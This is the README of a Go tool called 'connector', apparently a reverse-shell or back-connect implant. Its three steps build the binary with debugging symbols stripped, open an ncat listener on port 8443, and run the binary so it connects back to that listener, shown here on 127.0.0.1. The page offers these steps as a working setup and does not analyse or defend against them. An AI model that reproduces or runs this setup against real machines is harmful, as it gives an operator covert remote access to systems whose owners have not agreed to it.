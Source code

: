 # connector

1. Compile code on endpoint os (OSX, Linux, Windows)

  blackops:development user$ go build -ldflags="-s -w" connector.go

2. Setup listener (locally)
  
  blackops:development user$ ncat -v -l -p 8443
  
3. Run binary from CLI 

  blackops:development user$ ./connector 127.0.0.1 8443 update
  
